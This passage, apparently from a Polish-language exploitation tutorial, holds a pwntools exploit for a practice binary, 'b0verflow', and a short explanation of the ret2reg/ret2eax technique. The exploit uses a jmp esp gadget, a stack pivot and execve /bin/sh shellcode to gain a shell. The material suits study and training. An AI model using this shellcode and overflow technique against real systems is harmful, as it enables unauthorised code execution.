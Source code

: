 ```python
from pwn import *

# Establish the target process
target = process('./b0verflow')
#gdb.attach(target, gdbscript = 'b *0x080485a0')

# The shellcode we will use
# I did not write this, it is from: http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Establish our rop gadgets

# 0x08048504 : jmp esp
jmpEsp = p32(0x08048504)

# 0x080484fd : push ebp ; mov ebp, esp ; sub esp, 0x24 ; ret
pivot = p32(0x80484fd)

# Make the payload

payload = ""
payload += jmpEsp # Our jmp esp gadget
payload += shellcode # Our shellcode
payload += "1"*(0x20 - len(shellcode)) # Filler between end of shellcode and saved return address
payload += pivot # Our pivot gadget

# Send our payload
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
```
## Ret2reg

Podobnie, jeśli znamy funkcję zwracającą adres, w którym przechowywany jest kod powłoki, możemy wykorzystać instrukcje **`call eax`** lub **`jmp eax`** (znane jako technika **ret2eax**), oferującą inną metodę wykonania naszego kodu powłoki. Podobnie jak eax, **dowolny inny rejestr** zawierający interesujący adres mógłby być użyty (**ret2reg**).

### Przykład

Możesz znaleźć kilka przykładów tutaj:&#x20;

* [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/ret2reg/using-ret2reg)
* [https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/ASLR%20Smack%20and%20Laugh%20reference%20-%20Tilo%20Mueller/ret2eax.c](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/ASLR%20Smack%20and%20Laugh%20reference%20-%20Tilo%20Mueller/ret2eax.c)
* **`strcpy`** będzie przechowywane w **`eax`** adresie bufora, w którym przechowywany jest kod powłoki i **`eax`** nie jest nadpisywany, więc można użyć `ret2eax`.

